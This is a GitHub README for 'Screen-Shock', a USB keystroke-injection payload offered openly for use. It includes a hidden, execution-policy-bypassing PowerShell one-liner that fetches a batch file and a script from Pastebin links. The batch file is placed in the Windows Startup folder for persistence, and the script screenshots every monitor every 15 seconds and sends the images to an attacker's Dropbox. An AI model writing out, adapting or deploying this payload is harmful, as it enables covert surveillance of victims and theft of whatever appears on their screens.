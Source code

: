 <img src="https://github.com/atomiczsec/My-Payloads/blob/main/Assets/screen.png" width="200">

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+;Screen+Shock!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Screen-Shock

This payload is meant to exfiltrate screenshots of all monitors and sends to a dropbox every 15 seconds. (This setting can be changed in the c.ps1 file)

## Description

This payload uses iwr to download 2 files
* I.bat
* c.ps1

**I.bat** is downloaded to the startup folder to maintain persistance and execute c.ps1 on reboot/startup

**c.ps1** will sit in AppData\Roaming folder, taking a screenshot of all monitors every 15 seconds

Then the contents will then be sent to the DropBox for viewing pleasure



## Getting Started

### Dependencies

* Pastebin or other file sharing service, Dropbox
* Windows 10
* [Here](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/DropBox-Upload.md) is a tutorial on how to use DropBox-Upload

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Device will download both files and place them in proper directories to then run the script
```
powershell -w h -NoP -NonI -Ep Bypass "echo (iwr PASTEBIN LINK FOR BAT).content > "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\l.bat";echo (iwr PASTEBIN LINK FOR PS1).content > "$env:APPDATA\c.ps1";powershell "$env:APPDATA\c.ps1""
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here:

[atomiczsec](https://github.com/atomiczsec)

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
